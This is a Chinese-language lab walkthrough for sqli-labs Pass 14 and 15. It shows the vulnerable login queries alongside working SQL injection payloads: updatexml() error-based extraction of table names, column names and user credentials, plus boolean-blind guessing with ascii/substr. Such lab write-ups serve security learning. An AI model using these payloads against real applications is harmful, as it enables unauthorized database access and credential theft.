 ```bash
```

# Pass14

```bash
$uname='"'.$uname.'"';
$passwd='"'.$passwd.'"'; 
@$sql="SELECT username, password FROM users WHERE username=$uname and password=$passwd LIMIT 0,1";
```

与Less12的区别闭合方式为**" **&#x20;
`1"`

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"" and password="" LIMIT 0,1' at line 1

继续使用updataxml()函数

```bash
查询数据库表
-1" or updatexml(1,concat(0x7e,(select database()),0x7e),1) -- +
爆破数据表
-1" or updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database() limit 2,1),0x7e),1) -- +
爆破字段名
-1" or updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='users' limit 8,1),0x7e),1) -- +
爆破字段
-1" or updatexml(1,concat(0x7e,(select group_concat(username,0x7e,password) from users limit 0,1),0x7e),1) -- +
```

# Pass15

```bash
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
```

用单引号'闭合
`1'`显示红色的图片
`admin' order by 2-- +`显示蓝色图片

`admin' union select 1,2-- +`蓝色图片

正确的数据与错误数据页面回显的图片不一样，使用**布尔盲注**

布尔盲注

```bash
判断数据库名称长度
admin' or length(database())=8--+
显示蓝色图片，说明数据库长度为8

逐一猜解数据库名称
admin' or ascii(substr(database(),1,1))=115--+
第一个字符是s  ...

猜解数据表名称
admin' or ascii(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>101 --+
第一个字符是e ...

猜解字段名称
admin' or ascii(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1))=105--+
第一个字符是i ...
```